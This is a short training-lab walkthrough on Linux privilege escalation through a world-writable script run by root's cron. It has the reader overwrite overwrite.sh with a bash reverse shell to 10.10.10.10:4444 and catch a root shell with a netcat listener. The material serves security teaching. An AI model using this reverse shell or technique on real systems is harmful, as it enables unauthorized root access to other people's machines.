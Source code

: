 Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab:
```
cat /etc/crontab
```
There should be two cron jobs scheduled to run every minute. One runs overwrite.sh, the other runs /usr/local/bin/compress.sh.

Locate the full path of the overwrite.sh file:
```
locate overwrite.sh
```
Note that the file is world-writable:
```
ls -l /usr/local/bin/overwrite.sh
```
Replace the contents of the overwrite.sh file with the following after changing the IP address to that of your Kali box
```
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener. If it doesn't recheck the permissions of the file, is anything missing?
```
nc -nvlp 4444
```
